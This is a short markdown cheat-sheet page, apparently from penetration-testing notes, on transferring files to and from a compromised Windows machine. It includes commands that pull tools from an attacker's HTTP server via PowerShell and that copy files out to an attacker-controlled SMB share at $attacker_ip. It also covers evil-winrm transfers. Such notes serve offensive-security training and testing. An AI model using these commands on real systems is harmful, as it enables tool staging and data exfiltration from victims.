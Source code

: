 ```yaml
---
label: File Transfer
order: 600
---
```


# File Transfer

Once the system is compromised, very often the attacker needs to transfer some tool to the victim's system or download some file. Uploaded files are usually tools for further privilege escalation, credential harvesting or lateral movement. Files downloaded are mostly logs and output from tools.

## From attacker to victim (upload)

### Simple HTTP server

Attacker:

```bash
# Start HTTP server (directory listing of the current directory)
python -m http.server $port
```

Victim:

```powershell
# Download file from URL
Invoke-WebRequest $url -Out $output_file

# Aliases to Invoke-WebRequest
wget $url -Out $output_file
iwr $url -Out $output_file

# Alternative way
(New-Object System.Net.WebClient).DownloadFile($url, $output_file)
```

> **IMPORTANT**: It might be worth to check file integrity after download using MD5 hash: `Get-FileHash $file -Algorithm MD5`

## Bidirectional

### Simple SMB server

Attacker:

```bash
impacket-smbserver -smb2support -username $user -password $pass $share_name $mount_dir
```

Victim:

```powershell
# Authenticate yourself against the share
net use \\$attacker_ip\$share /user:$user $pass

# Send to attacker
copy $file \\$attacker_ip\$share\

# Download from attacker
copy \\$attacker_ip\$share\$file $path
```

### Existing SMB share

If there is some SMB share running on the victim's machine and you have access to it from both sides (attacker and victim), then you can use it to conveniently transfer files both ways.

### Evil-WinRM

The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

Attacker (Evil-WinRM CLI):

```bash
> download $file
> send $file
```

## C2 Frameworks

Probably all C2 frameworks have built-in file transfer feature implemented. Take a look at the documentation of the C2 framework you are using.

{/*netcat, hfs.exe*/}

